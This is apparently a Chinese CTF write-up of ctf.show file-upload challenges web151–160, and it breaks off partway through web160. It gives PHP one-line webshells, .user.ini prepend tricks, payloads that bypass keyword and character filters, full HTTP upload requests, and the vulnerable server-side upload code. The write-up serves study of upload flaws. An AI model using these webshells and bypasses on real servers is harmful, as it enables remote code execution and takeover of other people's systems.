










# 0x01前言

之前只是做过ctfhub的文件上传的题目和一些赛题，并没有真正系统学习过文件上传，这次也是来到我期待已久的文件上传篇了

# 0x02步入正题

### 文件上传漏洞

**一.介绍:**

文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。“文件上传” 本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。

要点:用户上传可执行文件，服务器未对文件进行一个合理的检查过滤

**二.文件上传漏洞危害**

- 上传文件是web脚本语言，服务器的web容器解释并执行了用户上传的脚本，导致代码执行。
- 上传文件是Flash的策略文件 crossdomain.xml，黑客用以控制Flash在该域 下的行为(其他通过类似方式控制策略文件的情况类似);
- 上传文件是病毒、木马文件，黑客用以诱骗用户或者管理员下载执行；
- 上传文件是钓鱼图片或为包含了脚本的图片，在某些版本的浏览器中会被作为脚本执行，被用于钓鱼和欺诈。 除此之外，还有一些不常见的利用方法，比如将上传文件作为一个入口，溢 出服务器的后台处理程序，如图片解析模块;或者上传一个合法的文本文件，其内容包含了PHP脚本，再通过"本地文件包含漏洞(Local File Include)"执行此脚本。

**三.文件上传漏洞满足的条件**

1.上传的后门文件，需要可以被脚本语言解析执行

- 说明一：如果对方服务器运行的是PHP环境，你不能上传一个JAVA的后门代码
- 说明二：上传文件的目录可以被脚本语言解析执行，如果没有执行权限也不行
- 说明三：一般文件上传后会返回一个地址，如果无法连接到也不能构成文件上传漏洞

**四.检测文件的流程**

检测的内容一般有一下几个方面：

客户端 javascript 检测 (通常为检测文件扩展名)

服务端 MIME 类型检测 (检测 Content-Type 内容)

服务端目录路径检测 (检测跟 path 参数相关的内容)

服务端文件扩展名检测 (检测跟文件 extension 相关的内容)

服务端文件内容检测 (检测内容是否合法或含有恶意代码)

**五.htaccess文件**

htaccess 文件是一种用于 Apache Web 服务器的配置文件，它允许网站管理员对网站的访问权限、重写规则（URL 重写）、错误页面处理、MIME 类型设置以及其他服务器配置进行精细控制。这个文件通常位于网站的根目录或子目录中，并且其名称前面的点（.）表示它是一个隐藏文件，在大多数操作系统中默认不会显示。

.htaccess 文件的一些常见用途包括：

1. 访问控制：

1. URL 重写：

1. 自定义错误页面：

1. MIME 类型设置：

1. 缓存控制：

1. 重定向：

1. 其他配置：

使用 .htaccess 文件进行配置时，需要注意以下几点：

- .htaccess 文件对服务器性能有一定影响，因为每次请求时服务器都需要读取和解析该文件。因此，尽可能在服务器配置文件中（如 httpd.conf 或虚拟主机配置）进行全局设置，以减少性能开销。
- 并非所有 Apache 安装都启用了 .htaccess 文件的功能。这取决于服务器的配置，通常通过 AllowOverride 指令来控制。
- .htaccess 文件中的语法错误可能导致服务器配置失败，影响网站的正常访问。因此，在修改 .htaccess 文件后，应仔细检查语法，确保没有错误。

# web151

## #前端验证



题目就是答案，前台校验不可靠，所以应该是绕过前端验证的问题

我们先写个一句话木马

## 一句话木马

```php
<?php @eval($_POST[1]);?>
```

把php后缀名改成jpg进行上传，然后我发现jpg不行，我就改成了png

用bp抓包上传，把png改回php，这样就可以绕过前端验证了



这里可以看到是上传成功了的，我们访问一下这个木马文件，注意路径是/upload/1.php

访问后是空白页面，说明我们上传的png文件确实是改成php文件进行解析执行了，这时候我们用蚁剑一把嗦就行了



当然这道题还有非预期解，因为是js验证，所以我们禁用了js或者删除相应的js代码的话也是会让这个验证失效的

# web152

## #MIME验证



这次是后端验证，但是后端验证也有很多种，后来测试发现这里是MIME验证

与前面的文件后缀不同，MIME类型 （Content-Type） 和文件后缀是两码事

因为我们上一题是传的png格式，所以抓包的时候发现content-type头已经是图片类型格式头了，也就不需要改了直接改后缀就行



常规如果直接上传php文件的话需要修改content-type头为需要的格式才能通过MIME验证，不过这里一直都是要求的上传图片，所以也就没必要了

# web153

后端不能单一校验

## #后缀名过滤

像上次一样上传png改后缀试试看



把response里的msg内容解码一下，显示文件类型不合规，先换个MIME类型看看是不是类型的问题

换了几个content-type类型后发现绕不过去，但是传png文件能成功php文件则不行，应该是对文件后缀进行的后端验证(试过了用大小写绕过能绕过去但是文件不能正常解析执行)

因为是nginx的服务器，所以.htaccess文件不适用，改为上传user.ini文件

先上传一个png后缀的一句话马，访问出来是图片



然后写.user.ini文件

```
auto_prepend_file=1.png
```

记得绕过前端验证，上传后访问/upload，因为我们上传的目录是在/upload，.user.ini文件只是对当前目录下的php文件进行配置，所以访问当前目录，再用蚁剑连马

在目录中找到源码分析一下

```php
<?php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];//获取文件名
    $filesize = ($_FILES["file"]["size"] / 1024);//获取文件大小并进行转换
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");//限制文件大小
    }else{
    	if($_FILES['file']['type'] == 'image/png'){//MIME类型验证
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];//取出后缀名并赋值给变量
            if($ext_suffix!='php'){//检查后缀名是否为php
                move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}

echo json_encode($ret);
```

# web154

后端不能单二校验

## #内容过滤php

```
POST /upload.php HTTP/1.1
Host: d048b80d-596e-4fb2-9ad2-e9f03450eae6.challenge.ctf.show
Content-Length: 208
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryn8WzTtV0RUl8O9A0
Sec-Ch-Ua-Mobile: ?0
Origin: https://d048b80d-596e-4fb2-9ad2-e9f03450eae6.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://d048b80d-596e-4fb2-9ad2-e9f03450eae6.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryn8WzTtV0RUl8O9A0
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/png

<?php @eval($_POST['cmd']); ?>
------WebKitFormBoundaryn8WzTtV0RUl8O9A0--

```

上传后显示文件内容不合规，对内容进行了检测，把php去掉发现能正常上传，猜测是过滤了php关键字，用短标签去绕过或者换个一句话木马去绕过，但是如果换别的木马的话，因为.user.ini文件是让文件包含到当前目录的php文件中，所以行不通，换成短标签吧。

先上传一个.user.ini文件操作1.png文件，然后上传一个1.png文件，数据包：

```
POST /upload.php HTTP/1.1
Host: 903eeed4-4f47-48ee-a83d-a6591086fde8.challenge.ctf.show
Content-Length: 205
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq5BjjtaE49tFLxhw
Sec-Ch-Ua-Mobile: ?0
Origin: https://903eeed4-4f47-48ee-a83d-a6591086fde8.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://903eeed4-4f47-48ee-a83d-a6591086fde8.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryq5BjjtaE49tFLxhw
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/png

<?=@eval($_POST['cmd']); ?>
------WebKitFormBoundaryq5BjjtaE49tFLxhw--

```

上传后访问/upload，蚁剑连接就可以了，接下来我们分析一下里面的源码

```php
//upload.php
<?php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];//获取文件名
    $filesize = ($_FILES["file"]["size"] / 1024);//获取文件大小
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");//限制文件大小
    }else{
    	if($_FILES['file']['type'] == 'image/png'){//检查MIME类型是否为png图像类型
            $arr = pathinfo($filename);//获取文件名的信息。
            $ext_suffix = $arr['extension'];//取出文件的扩展名
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);//获取文件上传的内容
                if(strrpos($content, "php")==FALSE){//弱比较
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);//如果内容中不包含php，则成功上传
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>3,"msg"=>"文件内容不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}
echo json_encode($ret);
```

分析源码也是一种进步！

# web155

## #内容过滤php强比较

后端不能单三校验

看看这次又过滤了啥，但是好像之前的做法也能用，我们直接一把梭然后分析源码

```php
<?php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];//文件名
    $filesize = ($_FILES["file"]["size"] / 1024);//文件大小
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){//MIME类型检验
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){//文件后缀名过滤php
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE){//强比较，但不知道这里有什么区别
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}

echo json_encode($ret);
```

一开始以为强比较和弱比较是没啥区别的，后面问了群友才知道



# web156

## #过滤方括号

后端不能单四校验

这里是过滤了`[]`方括号，看wp说可以用`{}`去绕过，结果真的可以

分析源码

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-24 19:34:52
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-26 15:49:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE && stripos($content,"[")===FALSE){//多过滤了方括号
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}

echo json_encode($ret);

```

有点绷不住了，一开始一直提示文件类型不合规，绕了半天后面猜是源码写错了，结果一看真搞错了

# web157

## #分号过滤

后端不能单五校验

这次连着花括号一起过滤了，然后还过滤了分号，直接用system函数去查文件就行

```
POST /upload.php HTTP/1.1
Host: 521969e1-9c31-4ffa-9b8f-0335523c5e0b.challenge.ctf.show
Content-Length: 210
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryig2gFBAAa73e1xWC
Sec-Ch-Ua-Mobile: ?0
Origin: https://521969e1-9c31-4ffa-9b8f-0335523c5e0b.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://521969e1-9c31-4ffa-9b8f-0335523c5e0b.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryig2gFBAAa73e1xWC
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/png

<?=system('cat ../flag.???')?>
------WebKitFormBoundaryig2gFBAAa73e1xWC--

```

这里的 `<?=` 是一个完整的输出语句，它会执行 `system('cat ../flag.???')` 并输出其结果。由于 `<?=` 本身就是一个输出语句，因此在这种情况下，不需要额外的分号 `;` 来结束语句。

```php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE && check($content)){
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}
function check($str){
    return !preg_match('/php|\{|\[|\;/i', $str);
}//过滤函数
echo json_encode($ret);
echo json_encode($ret);nothing here
```

# web158

没啥影响，也可以打通

```php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE && check($content)){
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}
function check($str){
    return !preg_match('/php|\{|\[|\;|log/i', $str);
}//多过滤了个log
echo json_encode($ret);
echo json_encode($ret);nothing here
```

# web159

## #过滤括号

这里过滤了括号，用内联执行去做就行

```
<?= `cat ../flag.???`?>
```

# web160

## #过滤空格和反引号

这里的话可以用日志文件包含去做，这也解释了为什么之前的那道题要过滤log了

服务器是nginx的，日志文件的路径

先上传.user.ini文件，然后找一下日志文件的位置

先抓包，抓一个上传文件的包

上传文件的包

```
POST /upload.php HTTP/1.1
Host: d2a29abe-04fe-4e55-ae31-596f4d4ea6dd.challenge.ctf.show
Content-Length: 223
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXKUay7fvIGR1uM2m
Sec-Ch-Ua-Mobile: ?0
Origin: https://d2a29abe-04fe-4e55-ae31-596f4d4ea6dd.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
